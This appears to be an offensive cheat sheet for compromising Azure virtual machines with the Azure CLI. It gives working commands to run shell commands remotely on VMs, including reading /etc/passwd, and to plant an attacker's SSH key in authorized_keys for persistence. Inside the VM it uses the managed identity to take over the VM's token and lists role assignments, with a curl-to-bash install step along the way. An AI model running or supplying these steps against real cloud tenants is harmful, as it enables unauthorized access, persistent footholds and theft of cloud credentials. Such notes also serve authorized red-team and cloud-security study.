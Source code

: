 List VMs:
```powershell
az vm list
az vm list-ip-addresses --resource-group <RESOURCE GROUP> --name <VM NAME> 
```


Execute Command:
```powershell
az vm run run-command invoke --resource-group <RESOURCE GROUP> -n <VM name> --comand-id RunShellScript --scripts “id && hostname && whoami && cat /etc/passwd”
```

## *Lets add Persistence!*

Generate a SSH-Key in your machine:
```powershell
ssh-keygen.exe
```

then copy the .pub to the target machine:
```powershell
az vm run-command invoke --resource-group <> -n <> --comand-id RunShellScript --scripts “echo ‘ssh-rsa-key ...’ >> /home/user/.ssh/authorized_keys”
```

Access the VM via SSH:
```powershell
ssh -i <private key> user@ip
```



## *Inside the target VM? What to do?*
> - You can grab the token!

To do that u can install the AZ CLI, other tool, call the API directly or retrieve from metadata endpoint

Install AZ CLI:
```powershell
curl -L https://aka.ms/InstallAzureCLIDeb | sudo bash
```


```powershell
az account list
```

If there is a managed identity attached to this account we can authenticate with:
```powershell
az login --identity
```


> *In this case, its a SYSTEM IDENTITY*

Grab the **principalId** with **az vm list**

Check the **Role Asssignment** for this **Identity**:
```powershell
az role assignment list --assignee “<the principalID of the VM = which works as a object ID because its a System identity>” --all
```
